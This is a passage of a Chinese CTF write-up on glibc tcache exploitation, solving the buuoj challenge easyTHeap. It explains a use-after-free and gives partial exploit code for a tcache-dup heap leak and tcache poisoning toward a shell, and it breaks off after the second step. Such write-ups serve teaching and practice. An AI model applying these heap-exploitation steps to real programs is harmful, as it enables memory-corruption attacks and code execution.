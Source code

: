 ```plain
    free(ptr1);
    free(ptr1);
    free(ptr1);
    return 0;
}
```

结合调试：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1607079178005-63be658b-d74a-4db7-8571-2c013036479c.png)

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1607079177949-b8bd1dd3-7bd2-483f-ab8c-7bf5b1a805f9.png)

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1607079177898-4ffe838b-2145-4cb8-aeee-a0d8c735aa80.png)

了解了这个结构体后，我们就可以具体利用了，下面结合一道例题进行进一步说明：

例题：buuoj -- [V&N2020 公开赛]easyTHeap

WP：

首先依然是glibc2.26下的环境，分析程序，主要有`add()` `edit()` `show()` `delete()`四个功能，可以看到，限制了最多进行7次添加操作，3次删除操作。分析`add()`函数，看到对申请chunk的size进行了一定限制；分析`edit()`函数，发现通过size数组限制了写入字节数；分析`show()`函数，实现正常的显示功能，可利用来泄露地址；分析`delete()`函数，存在`UAF`漏洞，但是会将size数组清零，这意味着在`delete`堆块后便无法任意修改。所以我们的思路是，通过tcache dup泄露堆地址，随后通过tcache poisoning，将chunk申请到堆基址，也即存放tcache_perthread_struct的地址，实现对结构体的伪造，即可实现把chunk放入unsortedbin以泄露地址，同时可以通过构造entries的内容，再次申请堆块到任意地址，进一步实现getshell;

第一步，通过tcache dup泄露堆地址，这里需要多分配一个chunk，以防止chunk 0释放后与top chunk的合并，由于连续两次释放chunk，chunk中的fd指针指向自身地址，可泄露堆基址：

```plain
add(0x80)#0
add(0x10)#1 -->
delete(0)
delete(0)
show(0)
leak_addr=leak_address()
print hex(leak_addr)
heap_base=leak_addr-0x250-0x10
log.info("heap_addr:"+hex(heap_base))
```

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1607079178087-672c7b76-63db-412e-b053-89181b0a4dcd.png)

第二步，tcache poisoning 申请chunk到heap_base：

```plain
add(0x80)#2->0
#修改chunk0的fd
edit(2,p64(heap_base+0x10))
add(0x80)#3->0
add(0x80)#4->heap_+0x10
```

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1607079177970-beb51b6d-8617-4a1f-b36c-342042f05bfb.png)
